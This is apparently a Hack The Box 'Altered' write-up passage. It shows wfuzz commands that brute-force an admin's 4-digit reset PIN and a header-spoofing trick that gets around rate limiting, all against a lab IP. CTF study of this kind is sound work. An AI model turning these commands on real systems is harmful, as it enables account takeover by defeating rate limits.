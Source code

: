 ![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/login%20forgot%20password%20pin.png)


# burpsuite
## cookie laravel_session
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/cookie%20laravel%20session.png)


## google laravel session indicates to php framework
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/google%20laravel%20session.png)

## url --> php
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/index.php.png)

# brute force 4 digits pin
## wfuzz
````bash
wfuzz -z range,0000-9999 -u "http://10.10.11.159/api/resettoken" -H "Cookie: XSRF-TOKEN="eyJpdiI6IlNpTXprdWR1WkNNNlhid0hIc1kzd0E9PSIsInZhbHVlIjoieVRwQlhqTUQ3Q3RxWll4TUdsVWo0V0NMclpzNWtVSnJZRzVjME5wamRQeWx2Y3VyQTQwOFRJbjJvNmNCbVdrQ0RIeHd4L3FRL296dk43VTFKaE5yamFsdHJidTZBWVZzZmhpQTQwSEFrSHU0SnJxbHpwZnJPSko3Wk5YVG05QmgiLCJtYWMiOiJhMGExZmQwNjRkZDU0MmRlM2QwY2EzYTNjNzMwMWJhNjRlNmNmNGZiMGI1NTkxMzUxYjBjYjRkYTZkMzE5NTUyIiwidGFnIjoiIn0%3D"" -d "name=admin&pin=FUZZ" 

`````

## response suddenly changes from 200 to 429 --> too many requests
![](Altered/screenshots/wfuzz%20brute%20force%20pin.png)
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/wfuzz%20brute%20force%20pin.png)


![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/headers%20to%20change%20location.png)

# rate-limit bypass

## create ip table for about 10000 requests
````bash
for i in {0..50};do for j in {0..255};do echo "10.10.$i.$j";done;done > iptable

`````

## header: X-Originated-IP doesnt work
````bash
wfuzz -z range,0000-9999 -w iptable -u "http://10.10.11.159/api/resettoken" -H "Cookie: XSRF-TOKEN="eyJpdiI6IlNpTXprdWR1WkNNNlhid0hIc1kzd0E9PSIsInZhbHVlIjoieVRwQlhqTUQ3Q3RxWll4TUdsVWo0V0NMclpzNWtVSnJZRzVjME5wamRQeWx2Y3VyQTQwOFRJbjJvNmNCbVdrQ0RIeHd4L3FRL296dk43VTFKaE5yamFsdHJidTZBWVZzZmhpQTQwSEFrSHU0SnJxbHpwZnJPSko3Wk5YVG05QmgiLCJtYWMiOiJhMGExZmQwNjRkZDU0MmRlM2QwY2EzYTNjNzMwMWJhNjRlNmNmNGZiMGI1NTkxMzUxYjBjYjRkYTZkMzE5NTUyIiwidGFnIjoiIn0%3D"" -d "name=admin&pin=FUZZ" -H "X-Originating-IP: FUZ2Z" -m zip


`````
